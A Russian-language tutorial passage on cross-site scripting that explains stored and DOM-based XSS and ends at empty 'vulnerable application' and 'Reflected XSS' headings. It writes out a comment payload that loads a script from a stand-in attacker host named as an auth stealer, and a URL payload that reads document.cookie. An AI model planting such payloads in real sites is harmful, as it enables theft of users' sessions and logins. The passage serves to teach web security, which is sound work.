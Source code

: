 Методы внедрения могут сильно различаться; в некоторых случаях злоумышленнику может даже не понадобиться напрямую взаимодействовать с самой веб-функциональностью, чтобы использовать такую дыру. Любые данные, полученные веб-приложением (по электронной почте, системным журналам, мгновенным сообщениям и т.д.), которые могут контролироваться злоумышленником, могут стать вектором внедрения.

**Пример атаки - Происходит авторизация на сайте,где злоумышленник заранее знает,что есть функция написания комментариев и производит атаку путем XSS уязвимости.**
```HTML
<!--Злоумышленник вставляет в свой комментарий JS скрипт-->
"Очень люблю щенков. Вы только взгляните на них!<img src="http://hackersite.com/authstealer.js">

```
### **DOM-based XSS**

**XSS на основе DOM (или, как его называют в некоторых текстах, «XSS типа 0»)** — это XSS-атака, при которой полезная нагрузка атаки выполняется в результате изменения «окружения» DOM в браузере жертвы, используемом исходной клиентской стороной script, чтобы код на стороне клиента работал «неожиданно». То есть сама страница (то есть ответ HTTP) не меняется, но код на стороне клиента, содержащийся на странице, выполняется по-другому из-за вредоносных модификаций, которые произошли в среде DOM.

Это отличается от других XSS-атак (хранимых или отраженных), когда полезная нагрузка атаки помещается на страницу ответа (из-за недостатка на стороне сервера).

Стратегии предотвращения XSS-атак на основе DOM включают в себя меры, очень похожие на традиционные стратегии предотвращения XSS, но реализованные в коде JavaScript и содержащиеся на веб-страницах (т.е. проверка ввода и экранирование). Некоторые фреймворки JavaScript имеют встроенные средства противодействия этому и другим типам атак — например, AngularJS.

Страница вызывается с URL-адресом, например:
```
http://www.some.site/page.html?default=French
```
Атака XSS на основе DOM на эту страницу может быть осуществлена ​​путем отправки жертве следующего URL-адреса:
```HTML
http://www.some.site/page.html?default=<script>alert(document.cookie)</script>
```

Когда жертва переходит по этой ссылке, браузер отправляет запрос
```HTML
/page.html?default=<script>alert(document.cookie)</script>
```
на www.some.site. Сервер отвечает страницей, содержащей приведенный выше код Javascript. Браузер создает объект DOM для страницы, в котором объект document.location содержит строку:
```HTML
http://www.some.site/page.html?default=<script>alert(document.cookie)</script>
```

Исходный код Javascript на странице не ожидает, что параметр по умолчанию будет содержать HTML-разметку, поэтому он просто декодирует и отображает его на странице (DOM) во время выполнения. Затем браузер отображает результирующую страницу и выполняет сценарий злоумышленника:
```js
alert(document.cookie)
```

## Уязвимое приложение 
## Reflected XSS

